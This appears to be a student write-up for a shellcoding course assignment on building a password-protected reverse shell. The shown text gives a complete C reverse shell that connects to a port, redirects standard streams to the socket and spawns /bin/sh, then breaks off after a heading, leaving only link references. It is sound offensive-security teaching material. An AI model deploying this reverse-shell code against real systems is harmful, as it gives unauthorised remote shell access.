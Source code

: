 Assignment #2 – Reverse shell with password
===========================================

The objective of this assignment was to create a shellcode that connects back to a certain IP and port and, if provided with the correct password, spawns a shell. The final shellcode must not have any null bytes.

Writing the reverse shell
-------------------------

I started by writing the reverse shell itself, with no password. To do this it's easier to start from a C version like the one below. This code has no error checking at all; and the shellcode won't have either.

    #include <stdlib.h>
    #include <unistd.h>
    #include <strings.h>
    #include <arpa/inet.h>

    int main(int argc, char **argv)
    {
        struct sockaddr_in server;
        int sock;
        char *arguments[] = {"/bin/sh", 0};
        
        sock = socket(AF_INET, SOCK_STREAM, 0);
            
        server.sin_family = AF_INET;
        server.sin_port = htons(atoi(argv[1]));
        server.sin_addr.s_addr = inet_addr("127.0.0.1");
        bzero(&server.sin_zero, 8);
                
        connect(sock, (struct sockaddr *)&server, sizeof(server));

        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);

        execve(arguments[0], arguments, NULL);
    }

Breaking it down we have seven parts:

  1. `socket()`. Create a socket to use in communications
  1. `connect()`. Connect the socket to an address and port
  1. `dup2()`. Duplicate file descriptors to connect `stdin`, `stdout` and `stderr` to the incoming connection
  1. `execve()`. Replace the current process image with `/bin/sh`

With the C code as reference each of these parts was implemented in assembly as follows.

----

### `socket()`

You need to call [`socket(2)`][man_2_socket] with the appropriate arguments. To figure out the values of the macros `AF_INET` and `SOCK_STREAM` you can use Python:


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7